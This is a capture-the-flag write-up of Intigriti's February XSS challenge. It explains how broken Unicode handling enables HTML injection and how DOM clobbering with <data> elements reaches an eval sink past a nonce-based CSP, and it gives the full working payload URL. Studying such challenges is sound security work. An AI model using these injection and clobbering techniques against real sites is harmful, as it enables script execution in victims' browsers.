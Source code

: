 # Intigriti's February XSS Challenge Writeup


This month’s challenge, made by [Holme](https://twitter.com/holme_sec), was a little bit different than the ones I have previously solved as it had a server-side processing issue.
<!--more-->

Vulnerable page - [https://challenge-0221.intigriti.io/](https://challenge-0221.intigriti.io/)\
Vulnerable script - [https://challenge-0221.intigriti.io/script.js](https://challenge-0221.intigriti.io/script.js)


### Issue 1 - Unicode characters improper processing

Digging into the [embedded script](https://challenge-0221.intigriti.io/script.js) (see the code below) we can see there is no direct source that could reach the only dangerous sink (`eval`) at line **57**:

```javascript
function startGrade() {
  var text = document.getElementById("assignmentText").value;
  checkLength(text);
  result = window.result || {
    message: "Your submission is too short.",
    error: 1,
  }; //If the result object hasn't been defined yet, the submission must be too short
  if (result.error) {
    endGrade();
  } else {
    getQAnswer();
    if (!passQuiz()) {
      result.message = "We don't allow robots at the Unicodeversity (yet)!";
      result.error = 1;
    } else {
      result.grade = "ABCDEF"[Math.floor(Math.random() * 6)]; //Don't tell the students we don't actually read their submissions
    }
    endGrade();
  }
}

function endGrade() {
  document.getElementById("message").innerText = result.message;
  if (result.grade) {
    document.getElementById(
      "grade"
    ).innerText = `You got a(n) ${result.grade}!`;
  }
  document.getElementById("share").style.visibility = "initial";
  document.getElementById(
    "share-link"
  ).href = `https://challenge-0221.intigriti.io/?assignmentTitle=${
    document.getElementById("assignmentTitle").value
  }&assignmentText=${document.getElementById("assignmentText").value}`;
  delete result;
}

function checkLength(text) {
  if (text.length > 50) {
    result = { message: "Thanks for your submission!" };
  }
}

function getQAnswer() {
  var answer = document.getElementById("answer").value;
  if (/^[0-9]+$/.test(answer)) {
    if (typeof result !== "undefined") {
      result.questionAnswer = { value: answer };
    } else {
      result = { questionAnswer: { value: answer } };
    }
  }
}

function passQuiz() {
  if (typeof result.questionAnswer !== "undefined") {
    return eval(result.questionAnswer.value + " == " + question);
  }
  return false;
}

var question = `${Math.floor(Math.random() * 10) + 1} + ${
  Math.floor(Math.random() * 10) + 1
}`;

document.getElementById("question").innerText = `${question} = ?`;

document.getElementById("submit").addEventListener("click", startGrade);

const urlParams = new URLSearchParams(location.search);
if (urlParams.has("autosubmit")) {
  startGrade();
}
```

It is a common behavior for web apps to reflect an input's name or id if provided via request body or query string, so does this app (escaping, unfortunately).
![Escaped reflected parameter](escapedrefparam.png "Escaped reflected parameter")

But if we try a Unicode sequence (բարև), we can see it doesn't get processed normally.
![Unicode reflected parameter](unicoderefparam.png "Unicode reflected parameter")

The first part of a Unicode character byte pair gets rendered and the second pair is getting reflected as is,
for example, in the case of letter `բ` (**U+0562**), **05** gets rendered and **62** is being returned.

### Issue 2 - DOM clobbering as a source to the dangerous sink

Now we can escape the reflection point with a doublequote using some character like `∀` (**U+2200**), but we cannot use event handlers because of CSP nor can construct an inline script element as we cannot guess a server-generated nonce value.
```CSP
script-src 'strict-dynamic' 'nonce-iR/JMMPv7suDLRND7rsPGvDzJxU=' 'unsafe-eval' http: https:;object-src 'none';base-uri 'none';
```

As said above, looking for DOM vulnerabilities, the only usable sink is `eval` (at line **56**  in the original script) in `passQuiz` function.
```Javascript
function passQuiz() {
  if (typeof result.questionAnswer !== "undefined") {
    return eval(result.questionAnswer.value + " == " + question);
  }
  return false;
}
```

And to reach it we should be able to control either `result.questionAnswer.value` or `question` variable.\
No source reaches `question`, but in line **4** we can see that result can be taken from the `window` object.
```Javascript
function startGrade() {
  var text = document.getElementById("assignmentText").value;
  checkLength(text);
  result = window.result || {
    message: "Your submission is too short.",
    error: 1,
```

So to set its value we should abuse [DOM clobbering](https://portswigger.net/web-security/dom-based/dom-clobbering). And the rendered payload should look something like this
```html
<elem id="result">
<elem id="result" name="questionAnswer" value="alert(origin)//">
```

Looking through [MDN documentation](https://developer.mozilla.org/en-US/docs/Web/HTML/Attributes), the only usable element that has `value` attribute is `<data>` as only its first two letters (**da**) can be embedded as a hexadecimal value to start a tag normally instead of a gibberish.

Finally we can construct our payload `?assignmentTitle=∀㸀㳚ta%20id=result㸀㳚ta%20id=result%20name=questionAnswer%20value=alert(origin)//&autosubmit`

- `∀` (**U+2200**) to render a doublequote (**"**),
- `㸀` (**U+3E00**) to render a greater than sign (**>**),
- `㳚` (**U+3CDA**) to render a less than sign (**<**) and reflect **DA** characters to start the `<data>` tag,
- and `autosubmit` query parameter to execute `startGrade` function without user interaction (line **71**).

Which should result in something like this being injected into the page
```html
"00>00<data id=result>00<data id=result name=questionAnswer value=alert(origin)//
```

![Pop the alert](alert.png "Pop the alert")

The final URL - [https://challenge-0221.intigriti.io/?assignmentTitle=∀㸀㳚ta%20id=result㸀㳚ta%20id=result%20name=questionAnswer%20value=alert(origin)//&autosubmit](https://challenge-0221.intigriti.io/?assignmentTitle=∀㸀㳚ta%20id=result㸀㳚ta%20id=result%20name=questionAnswer%20value=alert(origin)//&autosubmit)

